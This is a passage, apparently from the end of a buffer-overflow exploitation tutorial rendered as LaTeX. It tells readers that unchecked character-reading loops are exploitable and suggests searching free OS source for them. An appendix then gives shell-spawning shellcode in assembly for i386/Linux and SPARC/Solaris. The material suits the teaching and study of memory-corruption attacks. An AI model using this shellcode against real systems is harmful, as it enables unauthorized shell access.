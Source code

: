 \documentclass[a4paper]{article}
\begin{document}
Another usual programming construct we find is the use of a while loop to read one character at a time into a buffer from \texttt{stdin} or some file until the end of line, end of file, or some other delimiter is reached. This type of construct usually uses one of these functions: \texttt{getc(), fgetc(), or getchar()}. If there is no explicit checks for overflows in the while loop, such programs are easily exploited.

To conclude, \texttt{grep(1)} is your friend. The sources for free operating systems and their utilities is readily available. This fact becomes quite interesting once you realize that many comercial operating systems utilities where derived from the same sources as the free ones. Use the source d00d.

\section{Appendix A - Shellcode for Different Operating Systems/Architectures}

\subsection{i386/Linux}

\begin{listing}[H]
\begin{verbatim}
    jmp    0x1f
    popl   %esi
    movl   %esi,0x8(%esi)
    xorl   %eax,%eax
	movb   %eax,0x7(%esi)
    movl   %eax,0xc(%esi)
    movb   $0xb,%al
    movl   %esi,%ebx
    leal   0x8(%esi),%ecx
    leal   0xc(%esi),%edx
    int    $0x80
    xorl   %ebx,%ebx
    movl   %ebx,%eax
    inc    %eax
    int    $0x80
    call   -0x24
    .string \"/bin/sh\"
    
\end{verbatim}
\label{listing:1}
\end{listing}


\subsection{SPARC/Solaris}

\begin{listing}[H]
\begin{verbatim}
   	sethi   0xbd89a, %l6
    or      %l6, 0x16e, %l6
    sethi   0xbdcda, %l7
    and     %sp, %sp, %o0
    add     %sp, 8, %o1
    xor     %o2, %o2, %o2
    add     %sp, 16, %sp
    std     %l6, [%sp - 16]
    st      %sp, [%sp - 8]
    st      %g0, [%sp - 4]
    mov     0x3b, %g1
    ta      8
    xor     %o7, %o7, %o0
    mov     1, %g1
    ta      8
    
\end{verbatim}
\label{listing:1}
\end{listing}
\end{document}
